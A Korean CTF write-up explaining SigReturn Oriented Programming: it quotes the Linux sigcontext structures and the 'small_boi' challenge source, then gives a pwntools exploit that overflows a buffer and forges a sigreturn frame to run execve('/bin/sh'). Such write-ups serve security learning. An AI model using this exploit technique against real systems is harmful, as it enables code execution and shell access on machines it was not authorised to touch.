

# 취약점 분석

> SROP 
> - 리눅스에서는 시그널이 들어오게 되면 커널 모드에서 처리한다.
> - 커널 모드에서 유저모드로 들어오는 과정에서 유저의 스택에 레지스터 정보들을 저장해 놓는다.
> - `rt_sigreturn` 은 이렇게 저장해놓은 정보들을 다시 돌려놓을 때 사용된다.
> 
> - 공격자가 `rt_sigreturn` 시스템 콜을 호출할 수 있고 스택을 조작할 수 있다면 모든 레지스터와 > 세그먼트를 조작할 수 있다.
> - `rt_sigreturn` 시스템 콜을 사용하여 익스폴로잇 하는 기법을 SigReturn Oriented Programming > (SROP)라고 한다.

## restore_sigcontext

```cpp
static int restore_sigcontext(struct pt_regs *regs,
			      struct sigcontext __user *sc,
			      unsigned long uc_flags)
{
	unsigned long buf_val;
	void __user *buf;
	unsigned int tmpflags;
	unsigned int err = 0;
	/* Always make any pending restarted system calls return -EINTR */
	current->restart_block.fn = do_no_restart_syscall;
	get_user_try {
#ifdef CONFIG_X86_32
		set_user_gs(regs, GET_SEG(gs));
		COPY_SEG(fs);
		COPY_SEG(es);
		COPY_SEG(ds);
#endif /* CONFIG_X86_32 */
		COPY(di); COPY(si); COPY(bp); COPY(sp); COPY(bx);
		COPY(dx); COPY(cx); COPY(ip); COPY(ax);
#ifdef CONFIG_X86_64
		COPY(r8);
		COPY(r9);
		COPY(r10);
		COPY(r11);
		COPY(r12);
		COPY(r13);
		COPY(r14);
		COPY(r15);
         ...
}
```

- `COPY`, `COPY_SEG` 매크로를 사용하여 레지스터및 세그먼트를 복원한다.

## sigcontext-32bit

```cpp
struct sigcontext
{
  unsigned short gs, gsh;
  unsigned short fs, fsh;
  unsigned short es, esh;
  unsigned short ds, dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

## sigcontext-64bit

```cpp
struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short pad0;
  uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  extension union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

- 해당 `sigcontext` 구조체를 바탕으로 SROP 기법으 이용하여 공격을 진행할 수 있다.


## 문제 small_boi.c

```cpp
/* I wonder what you have to do with this sigreturn gadget */
volatile void one_true_gadget(void)
{
    asm("mov $0xf, %eax;" // sigreturn
        "syscall;");
}

asm("poprax:"
    "pop %rax;"
    "ret;");

char *useful_string = "/bin/sh";
char useful_byte = 'i';

int main()
{
    char buf[32];

    asm("mov %0, %%rsi;"
        :
        : "r"(buf)
        : "%rsi");
    asm("xor %rax, %rax;"
        "xor %rdi, %rdi;"
        "mov $0x200, %rdx;"
        "syscall;");
    return 0;
}

void _start()
{
    main();
    asm("xor %rdi, %rax;"
        "mov $60, %rax;"
        "syscall;");
}
```

- 문제 바이너리를 분석해 보면 `sigreturn` , `/bin/sh`, `syscall` 등 익스를 하기에 필요한 명령들이 있는 것을 확인할 수 있으며
- 카니리 보호 기법이 걸려 있지 않아 버퍼 오버플로우를 발생시켜 return 주소를 sigreturn call 하여 SROP를 할 수 있다.
- main 함수에서 read 함수를 바탕으로 0x200 바이트를 입력 받기 때문에 버퍼 오버플로우가 발생한다.

## SROP

```cpp
binshell = 0x4001ca
si_return = 0x400180
syscall = 0x400185

frame = SigreturnFrame()

frame.rax = constants.SYS_execve
frame.rdi = binshell
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload = p8(0x90)*40+p64(si_return)+str(frame)
sl(payload)
irt()
```

- SROP를 하기 위해서는 구조체의 값을 일일이 다 맞쳐서 짜야 한다는 점이 있지만 pwntools의 도구를 사용하여 손 쉽게 해당 레지스터에 필요한 값을 줄 수 가 있다.
- 우리는 execve 시스템 콜을 사용하여 /bin/sh 주소를 인자로 사용하여 쉘을 획득하면 된다.



```toc
```